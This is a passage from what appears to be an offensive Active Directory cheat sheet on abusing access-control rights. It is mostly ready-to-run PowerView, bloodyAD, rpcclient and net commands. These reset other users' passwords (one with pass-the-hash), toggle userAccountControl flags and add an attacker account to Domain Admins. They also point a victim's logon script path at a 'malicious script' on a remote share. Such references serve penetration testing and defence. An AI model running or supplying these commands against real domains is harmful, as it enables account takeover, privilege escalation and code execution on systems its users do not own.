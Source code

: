 		# Set back the userAccountControl
		PowerView2 > Set-DomainObject -Identity username -XOR @{useraccountcontrol=4194304} -Verbose
		PowerView2 > Get-DomainUser username | ConvertFrom-UACValue
		```

* Reset another user's password.
	* Windows/Linux:
		```ps1			
		# Using bloodyAD with pass-the-hash
		bloodyAD --host [DC IP] -d DOMAIN -u attacker_user -p :B4B9B02E6F09A9BD760F388B67351E2B set password john.doe 'Password123!'
		```
	* Windows only:
		```ps1
		# https://github.com/EmpireProject/Empire/blob/master/data/module_source/situational_awareness/network/powerview.ps1
		$user = 'DOMAIN\user1'; 
		$pass= ConvertTo-SecureString 'user1pwd' -AsPlainText -Force; 
		$creds = New-Object System.Management.Automation.PSCredential $user, $pass;
		$newpass = ConvertTo-SecureString 'newsecretpass' -AsPlainText -Force; 
		Set-DomainUserPassword -Identity 'DOMAIN\user2' -AccountPassword $newpass -Credential $creds;
		```
	* Linux only:
		```ps1
		# Using rpcclient from the  Samba software suite
		rpcclient -U 'attacker_user%my_password' -W DOMAIN -c "setuserinfo2 target_user 23 target_newpwd" 
		```

* WriteProperty on an ObjectType, which in this particular case is Script-Path, allows the attacker to overwrite the logon script path of the delegate user, which means that the next time, when the user delegate logs on, their system will execute our malicious script :
	* Windows/Linux:
		```ps1
		bloodyAD --host 10.0.0.5 -d example.lab -u attacker -p 'Password123*' set object delegate scriptpath -v '\\10.0.0.5\totallyLegitScript.bat'
		```
	* Windows only:
		```ps1
		Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.bat"
		```

### Group

* This ACE allows us to add ourselves to the Domain Admin group : 
	* Windows/Linux:
		```ps1
		bloodyAD --host 10.10.10.10 -d example.lab -u hacker -p MyPassword123 add groupMember 'Domain Admins' hacker
		```
	* Windows only:
		```ps1
		net group "domain admins" hacker /add /domain
		```
	* Linux only:
		```ps1
		# Using the Samba software suite